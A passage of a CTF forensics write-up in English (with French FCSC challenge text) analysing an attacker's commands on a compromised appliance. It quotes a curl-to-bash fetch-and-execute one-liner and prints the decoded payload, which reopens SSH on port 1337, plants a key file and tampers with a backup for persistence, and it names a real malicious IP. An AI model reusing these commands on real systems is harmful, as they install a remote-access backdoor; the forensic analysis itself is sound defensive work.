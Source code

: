 > Le flag est au format : FCSC{<protocole>:<port>:<chemin_absolu>:<chemin_absolu>}

### Solution

My first reflex was to try to figure out was the lines of codes that we get right before do. I executed them (carefully and I take care that they execute nothing harmful)

I stopped the execution at the line ```c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash``` and just execute ```c=`cat /tmp/c`;/home/bin/curl -k ${c} -s```. Then I display `c` :
```bash
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/runtime/etc/ssh/sshd_server_confi > /dev/null 2>&1
```
So, the payload finally execute the following code which does the following actions :
- Replace the port used by ssh for the port 1337
- Comment the line `ForceCommand` and the ssh config
- Allow the authentication by public key
- Add a valid file for public key authentication for ssh
- decompress the archive `/data/pkg/data-backup.tgz`
- Append the modified config to the backup
- Zip the modified backup
- Replace the original backup by the modified backup
- All outputs are redirected to /dev/null so it should be complicated to view the output of these commands

So the flag is FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/runtime/etc/ssh/sshd_server_confi}

## Horreur, malheur 5/5 - Un peu de CTI
> Vous avez presque fini votre analyse ! Il ne vous reste plus qu'à qualifier l'adresse IP présente dans la dernière commande utilisée par l'attaquant.
>
> Vous devez déterminer à quel groupe d'attaquant appartient cette adresse IP ainsi que l'interface de gestion légitime qui était exposée sur cette adresse IP au moment de l'attaque.
>
>Le flag est au format : FCSC{<UNCXXXX>:<nom du service>}.
>
> Remarque : Il s'agit d'une véritable adresse IP malveillante, n’interagissez pas directement avec cette adresse IP.

### Solution 
> Note : I didn't find the entire solution

By looking at the script found in part.3, it's obvious that the IP should be 146.0.228.66. A quick search on internet make me think that the attacker is named under the code : UNC5221.
However, after investigation, I did't find the other part of the flag


*Write-up author : acmo0*